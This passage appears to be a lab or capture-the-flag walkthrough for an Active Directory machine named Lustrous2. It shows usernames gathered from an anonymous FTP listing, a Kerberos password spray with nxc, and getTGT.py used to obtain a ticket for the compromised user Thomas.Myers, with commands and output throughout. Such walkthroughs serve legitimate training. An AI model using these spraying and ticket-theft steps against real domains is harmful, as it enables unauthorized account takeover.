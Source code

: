 ```terminal
125 Data connection already open; Transfer starting.
09-07-24  12:03AM       <DIR>          Aaron.Norman
09-07-24  12:03AM       <DIR>          Adam.Barnes
...
09-07-24  12:03AM       <DIR>          Victoria.Williams
09-07-24  12:03AM       <DIR>          Wayne.Taylor
226 Transfer complete.
ftp>
```

A couple of folders are readable and we can also access the homes directory. While we can not enter any of these directories due to missing permissions, we can get a list of usernames. We grab the names and collect them in a clean users.txt file, then spray some passwords that fit the labs name or are in general more likely (any of these will yield a result here: `Lustrous2!, Lustrous2024, Start123!, Sommer2024`).

However when we try to do this, we get the following error for all users:

```terminal
nxc ldap lustrous2.vl -u users.txt -p 'Lustrous2024'
LDAP        10.10.105.184   389    LUS2DC.Lustrous2.vl [*]  x64 (name:LUS2DC.Lustrous2.vl) (domain:Lustrous2.vl) (signing:True) (SMBv1:False)
LDAP        10.10.105.184   389    LUS2DC.Lustrous2.vl [-] Lustrous2.vl\Aaron.Norman:Lustrous2024 STATUS_NOT_SUPPORTED
LDAP        10.10.105.184   389    LUS2DC.Lustrous2.vl [-] Lustrous2.vl\Adam.Barnes:Lustrous2024 STATUS_NOT_SUPPORTED
```

This suggests that NTLM is disabled and authentication is only possible via kerberos. We can spray using nxc and kerberos by adding the `-k` flag as follows:

```terminal
nxc ldap lustrous2.vl -u users.txt -p 'Lustrous2024' -k
LDAP        lustrous2.vl    389    LUS2DC.Lustrous2.vl [*]  x64 (name:LUS2DC.Lustrous2.vl) (domain:Lustrous2.vl) (signing:True) (SMBv1:False)
LDAP        lustrous2.vl    389    LUS2DC.Lustrous2.vl [-] Lustrous2.vl\Aaron.Norman:Lustrous2024 KDC_ERR_PREAUTH_FAILED
...
LDAP        lustrous2.vl    389    LUS2DC.Lustrous2.vl [-] Lustrous2.vl\Terence.Jordan:Lustrous2024 KDC_ERR_PREAUTH_FAILED
LDAPS       lustrous2.vl    636    LUS2DC.Lustrous2.vl [-] Lustrous2.vl\Thomas.Myers:Lustrous2024
LDAP        lustrous2.vl    389    LUS2DC.Lustrous2.vl [-] Lustrous2.vl\Tony.Davies:Lustrous2024 KDC_ERR_PREAUTH_FAILED
```

This results in one user having a different error message for `Thomas Myers` - let's attempt to get a TGT for this one:

```terminal
getTGT.py lustrous2.vl/thomas.myers:'Lustrous2024' -dc-ip lustrous2.vl
[*] Saving ticket in thomas.myers.ccache

export KRB5CCNAME=thomas.myers.ccache
```
